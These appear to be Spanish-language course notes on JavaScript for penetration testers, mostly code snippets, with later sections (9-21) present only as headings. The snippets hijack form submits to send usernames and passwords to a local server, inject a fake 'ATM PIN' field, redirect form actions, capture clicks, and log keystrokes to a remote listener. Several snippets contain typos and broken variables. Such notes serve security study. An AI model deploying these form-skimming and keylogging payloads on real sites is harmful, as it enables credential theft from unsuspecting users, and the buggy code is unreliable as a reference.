 #### CallBack
> Recibir como parámetro a una función  
> Es una forma de asegurarnos de q un determinando codigo no se ejecuta hasta que otro codigo haya terminado de ejecutarse

### 1. Modificar HTML
**getElementsByTagName()** acepta un nombre de etiqueta y devuelve una colección HTML en vivo de elementos con el nombre de etiqueta coincidente en el orden en que aparecen en el documento.

```
document.getElementsByTagName("button")[0].innerHTML="JAVASCRIPT";
document.getElementsByTagName("h1")[0].innerHTML="Found";
```

### 2. Modificar los links
```
var links = document.getElementsByTagName("a");
for  (i=0; i<links.length; i++){
  links[i].href = "http://debiantano.github.io";
  links[i].innerHTML = "Link Modificado";
}
```

### 3. Hijack form submit
```
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  alert(username + ' : ' + password);
}
document.forms[0].onsubmit = InterceptForm;
```

```
> python -m SimpleHTTPServer 8000
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  new Image().src = "http://localhost:8000/?username=' + username + "&password=" + password;
}
document.forms[0].onsubmit = InterceptForm;
```

### 4. Modify form fields
```
var input = document.createElement("input");

input.setAttribute("type", "text");
input.setAttribute("class", "input-block-level");
input.setAttribute("placeholder", "ATM PIN");
input.setAttribute("name", "atmpin");

var provius = document.forms[0].elements[0];

document.forms[0].insertBefore(input, previous);
docuemnt.forms[0].action = "http://localhost:8000/"
```

### 5. Ingenieria social
```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
```

```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
document.forms[0].parentNode.appendChild(document.forms[0)
```

### 6. Capture all clicks
```
function CaughtClick(){
  alert("You clicked");
}
document.body.addEventListener('click', CaughtClick, true);
```

```
function CaughtClick(){
  location.href = "https://google.es";
}
document.body.addEventListener('click', CaughtClick, true);
```

### 7. Keystroke logging
```
> python -m SimpleHTTPServer 8000
document.onkeypress = function Keylogger(inp){
  key_pressed = String.fromCharCode(inp.which);
  new Image().src = "http://localhost:9000/?" + key_pressed;
}
```

### 8. Event listener
```
" anmouseover="alert(1);

document.forms[0].onsubmit = function demo(){
  var pass = document.forms[0].elements[1].value;
  alert(pass);
}
```

### 9. Include external
### 10. Include external js using
### 11. Solution replace banner
### 12. Solution Stealing from autocomplete
### 13. Posting with xmlHTTPrequest
### 14. Fetching data with xmlHTTPrequest
### 15. Data exfiltration with xmlHTTPrequest
### 16. Extraching CSRF tokens
### 17. CSRF token stealing
### 18. HTML parsing of xmlHTTPrequest response
### 19. Solution multilevel html parsing
### 20. Solution multilevel js parsing
### 21. Solution multilevel xml parsing

